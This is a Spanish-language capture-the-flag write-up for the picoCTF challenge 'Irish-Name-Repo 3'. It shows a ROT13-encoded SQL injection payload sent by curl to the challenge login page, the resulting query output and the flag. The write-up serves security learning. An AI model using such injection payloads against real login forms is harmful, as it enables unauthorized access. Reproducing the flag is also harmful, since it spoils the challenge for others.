# Irish-Name-Repo 3 

## Descripción
Hay un sitio web seguro en https://jupiter.challenges.picoctf.org/problem/40742/. Prueba a ver si puedes iniciar sesión como administrador.

## Pistas
- Parece que la contraseña está encriptada.

## Solución
Todas las contraseñas que se mandan en el campo "password" se cifran en ROT13 por lo que se tradujo la inyección SQL "' or 1=1;" a ROT13 usando la herramienta cyberchef  lo que arrojó "' be 1=1;" eso se mandó como contraseña. 
```bash
C:\Users\Ricardo>curl https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>
```

## Bandera
picoCTF{3v3n_m0r3_SQL_4424e7af}

## Notas adicionales
Nuevamente se usa inyección SQL para resolver el problema.
| Concepto | Definición |
|--------|--------|
| ROT13 | Es un sencillo cifrado César utilizado para ocultar un texto sustituyendo cada letra por la letra que está trece posiciones por delante en el alfabeto |

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
[ROT13](https://es.wikipedia.org/wiki/ROT13)
[CyberChef](https://gchq.github.io/CyberChef/)